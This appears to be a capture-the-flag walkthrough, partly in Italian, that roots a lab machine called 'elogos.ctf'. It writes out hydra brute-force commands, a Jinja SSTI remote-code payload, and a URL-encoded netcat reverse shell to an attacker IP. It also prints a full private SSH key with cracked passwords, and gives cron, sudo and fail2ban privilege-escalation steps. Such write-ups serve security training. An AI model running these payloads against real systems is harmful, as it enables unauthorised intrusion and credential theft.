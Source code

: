 ### **PORT SCANNING**
```bash
nmap -sT -T5 --min-rate=10000 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```
==Creds = j.brock:princess==
ls -la and take the private ssh key. Crack it.
```
ssh2john id_rsa > hash
```
![[Pasted image 20231011153933.png]]![[Pasted image 20231011154601.png]]

Log in as j.brock via ssh
### **PATH 2 - WEB**
*Cookie Bypass*
http://elogos.ctf/login
Use inspect to retrieve the cookie and decode it.
![[Pasted image 20231011154838.png]]
Change logged in to true and save it in the browser
*HardCoded Credentials*
Ci sono delle credenziali hardcodate al seguente path
https://elogos.ctf/assets/js/secure_credentials.js
admin:4dmin3vil!!
![[Pasted image 20231012173648.png]]
*Web to www-Data*
![[Pasted image 20231011154905.png]]
Use the "user=" parameter to inject the ssti payload and achieve a RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen("id").read()}}
```
Usa la reverse shell url encodata
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.86.130%204444%20%3E%2Ftmp%2Ff
```
![[Pasted image 20231011155050.png]]
Now use the rce to obtain a reverse shell
![[Pasted image 20231012163853.png]]
*www-Data to John*
intera home j.brock leggibile da gruppo web-developer di cui www-Data fa parte
![[Pasted image 20231012164214.png]]
catta id_rsa
``` bash
cat /home/j.brock/.ssh/id_rsa
```

```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
qMfG6JM2YKLsLYHqT9T+dgZJqGc=
-----END OPENSSH PRIVATE KEY-----
```
e craccalo usando ssh2john
```
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
==Password = spaghetti==

Entra su ssh come j.brock
==ricorda chmod 400 su id_rsa==
### **j.brock to m.hack**
Scarica linpeas ed avvialo
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh
vai in /scripts e crea un file random.py
```
![[Pasted image 20231012165416.png]]
Vai in /scripts e crea un file random.py
```python
import os
os.system('cp /bin/bash /scripts/; chmod +s /scripts/bash')
```
![[Pasted image 20231012164950.png]]
Aspetta che runna tramite cronjob ed esegui il bash con suid creato
![[Pasted image 20231012165448.png]]

### **m.hack to r.silva**
Nella home di m.hack c'è un file keepass kdbx.
Usa keepass2john per craccarlo
```
keepass2john mypasswords.kdbx > hash

```
==Password = ihatehackers==

all'interno del keepass c'è la password per l'utente
==Password = JVQe4hUMqvCry4Gz996!n3==

Puoi fare
```bash
su m.hack
```
per stabilizzare la shell. Poi fai
```bash
sudo -l
```
![[Pasted image 20231012170444.png]]
crea il path ed il binario
```bash
mkdir .updates
cd .updates
mkdir tmp
cd tmp
vim update_binary
```
```update_binary
#/bin/bash

/bin/bash -p
```
==dai chmod +x al binario==
ed esegui il sudo come r.silva
```
sudo -u r.silva /home/m.hack/.updates/tmp/update_binary
```
![[Pasted image 20231012170931.png]]

### **r.silva to root**
r.silva appartiene al gruppo fail2ban
![[Pasted image 20231012171109.png]]
andiamo a modificare i config di fail2ban
```bash
cd /etc/fail2ban
vim jail.conf
```
linea 268 per vedere che azione viene eseguita al trigger di fail2ban
![[Pasted image 20231012171431.png]]
linea 554 per attivarlo su vsftp
![[Pasted image 20231012171353.png]]
Ora vai a modificare l'action
```bash
cd action.d
vim log_alert.conf
```
![[Pasted image 20231012171555.png]]
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```
Aspetta il restart tramite cronjob (ogni minuto)
tenta di bruteforzare ftp per triggerare fail2ban
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/CommonAdminBase64.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.129
```
![[Pasted image 20231012172132.png]]
![[Pasted image 20231012172158.png]]
